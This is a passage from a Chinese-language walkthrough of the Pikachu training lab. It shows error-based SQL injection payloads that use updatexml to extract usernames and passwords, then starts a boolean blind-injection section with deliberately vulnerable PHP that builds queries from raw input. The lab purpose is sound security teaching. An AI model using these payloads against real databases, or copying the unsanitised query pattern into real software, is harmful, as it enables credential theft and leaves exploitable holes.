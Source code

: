 ![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882578933-1caa84ff-3651-49c9-91d6-4c50aa8a2d2a.png)



SQL注入详情可以看sqli-labs系类，这里不进行详细叙述，直接爆账号和密码了。

```plain
XMTX' or updatexml(1,(concat(0x7e,(select concat_ws('-',username,password) from pikachu.users limit 0,1),0x7e)),1) or '
```



这里的输出不完整是因为报错注入对输出的字符数有限制

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882583608-11351106-5ca4-4659-aad9-c5ff5c219e3c.png)



可以输入

```plain
XMTX' or updatexml(1,(concat(0x7e,(select username from pikachu.users limit 0,1),0x7e)),1) or 'XMTX' or updatexml(1,(concat(0x7e,(select password from pikachu.users limit 0,1),0x7e)),1) or '
```



通过修改limit的参数来控制。



# 基于boolian的盲注

## 查看关键代码

```php
$html='';if(isset($_GET['submit']) && $_GET['name']!=null){    $name=$_GET['name'];//这里没有做任何处理，直接拼到select里面去了    $query="select id,email from member where username='$name'";//这里的变量是字符型，需要考虑闭合    //mysqi_query不打印错误描述,即使存在注入,也不好判断    $result=mysqli_query($link, $query);////     $result=execute($link, $query);    if($result && mysqli_num_rows($result)==1){        while($data=mysqli_fetch_assoc($result)){            $id=$data['id'];            $email=$data['email'];            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";        }    }else{        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";    }}
```

